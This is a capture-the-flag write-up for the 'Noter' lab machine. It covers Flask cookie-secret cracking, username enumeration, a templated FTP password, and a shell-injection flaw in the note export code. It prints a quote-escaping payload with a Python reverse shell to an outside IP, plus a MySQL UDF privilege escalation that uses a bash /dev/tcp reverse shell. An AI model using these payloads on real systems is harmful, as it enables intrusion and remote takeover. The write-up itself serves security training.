# Noter

Gaining Access

As usual, we start with an Nmap scan:



Port 5000 was a HTTP port that was running some notetaking application.

### JWT Token Brute Force

The web application allowed us to register or login:



I created a user and logged in. When I proxied the traffic through Burp, we can see that there is a JWT Session Cookie present:



When decrypted, we can see that it contains some data:



Generally, from other machine experiences, Flask uses JWT cookies to differentiate sessions. So I tried to brute force the secret of this cookie with `flask-unsign` and `rockyou.txt`.



With the secret found, we can create our own cookies and make whatever username we want. However, we still need to find a username that works.

### Username Enumeration

I noticed that the website has different responses when we key in an invalid username and a valid one,

I created the `test` user and tried a wrong password, and got the `Invalid Login` warning:



If we did this a user that does not exist, it would tell us `Invalid Credentials`.



With this boolean condition, we can brute force all possible users within the machine. I used Burp Intruder to do so:



Then I filtered the results using the `Invalid Login` string.



So `blue` is the user on this machine. We can use the secret we found earlier to create a new cokie and sign in by replacing the cookie:



### FTP Credentials

With access to this new user, we can view more hidden notes:



The first one was the most interesting as it revealed some FTP Credentials:



Logging into FTP, we can gain access to a password policy PDF.



Reading the Password Policy, we can see that the passwords are all templated:



With this hint, we can login as `ftp_admin` using `ftp_admin@Noter!`.

### Source Code Review

WIth access to the new FTP account, we can find two website source code backups made at different times:



Additionally, because we are the `blue` user, we can view the VIP dashboard which allows us to **import and export notes**.





When checking the Export Notes portion of code, we see that it **runs a command using a shell.**

```python
# Export remote
@app.route('/export_note_remote', methods=['POST'])
@is_logged_in
def export_note_remote():
    if check_VIP(session['username']):
        try:
            url = request.form['url']

            status, error = parse_url(url)

            if (status is True) and (error is None):
                try:
                    r = pyrequest.get(url,allow_redirects=True)
                    rand_int = random.randint(1,10000)
                    command = f"node misc/md-to-pdf.js  $'{r.text.strip()}' {rand_int}"
                    subprocess.run(command, shell=True, executable="/bin/bash")

                    if os.path.isfile(attachment_dir + f'{str(rand_int)}.pdf'):

                        return send_file(attachment_dir + f'{str(rand_int)}.pdf', as_attachment=True)

                    else:
                        return render_template('export_note.html', error="Error occured while exporting the !")

                except Exception as e:
                    return render_template('export_note.html', error="Error occured!")


            else:
                return render_template('export_note.html', error=f"Error occured while exporting ! ({error})")
            
        except Exception as e:
            return render_template('export_note.html', error=f"Error occured while exporting ! ({e})")

    else:
        abort(403)
```

In specific, it runs `md-to-pdf.js`, which might be an RCE vector here. So, we can create a malicious .md file that has commands within it to allow for code injection.



For this case, we would need to have something to escape the first quote and command, hence we start the payload with `';`. Afterwards, we need to inject some Python code since this is a Python based website. I used a basic Python3 reverse shell.

Then, we need to end it with `#'` to close the quote and end the command:

```
';python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.12",21));
os.dup2( s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' # '
```

We can then upload this file and gain a reverse shell as the `svc` user on a listening port.

### SQL Creds

Additionally, when checking the two backups, I used `diff` to view the differences between each file. I found that some MySQL Credentials were removed from the more recent backup:



## Privilege Escalation

With the MySQL Creds, we can login as root:



Because MySQL was running as root on the machine, we could do the `raptor_udf.so` exploit. This exploit basically uses a shared library that runs commands from the SQL plugins library. We can add a custom command that would allow us to gain RCE as the root user.

There are more detailed instructions here:





Afterwards, we can just use the `do_system('bash -c "bash -i >& /dev/tcp/10.10.16.12/21 0>&1"');` function we defined to gain a reverse shell on the machine.


